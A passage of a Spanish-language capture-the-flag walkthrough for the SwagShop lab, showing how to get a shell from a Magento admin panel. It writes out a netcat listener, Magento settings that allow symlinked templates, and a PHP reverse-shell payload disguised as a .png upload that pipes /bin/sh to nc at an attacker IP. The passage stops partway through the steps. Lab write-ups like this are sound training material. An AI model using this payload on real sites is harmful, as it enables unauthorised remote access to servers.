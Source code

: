 Lo miramos desde la web y entramos en Admin panel de Magento.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde Magento {-}

Para ganar acceso desde un panel Admin de Magento siempre va de la misma forma.

Nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Desde el panel de configuration de Magento

1. Vamos al menu 
```bash
 System -> Configuration 
```
.
1. En el Menu de izquierda vamos a 
```bash
 ADVANCED -> Developer 
```

1. En Template Settings Habilitamos los Symlinks y damos al boton 
```bash
 Save Config 
```

1. En el menu principal, le damos a 
```bash
 catalog -> Manage Categories 
```


Aqui tenemos que crear una reverse shell 
```bash
 vi shell.php.png 
```


```php
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
```

De esta manera, la podemos subir al magento en la parte **Image**, en Name ponemos **test** y damos al boton Save Category
Si hacemos hovering por encima del link de la imagen vemos la routa siguiente


```bash
 http://swagshop.htb/media/catalog/category/shell.php.png 
```


Aqui creamos un nuevo Newsletter Template.

1. En el menu Pricipal damos a 
```bash
 Newsletter -> Newsletter Templates 
```
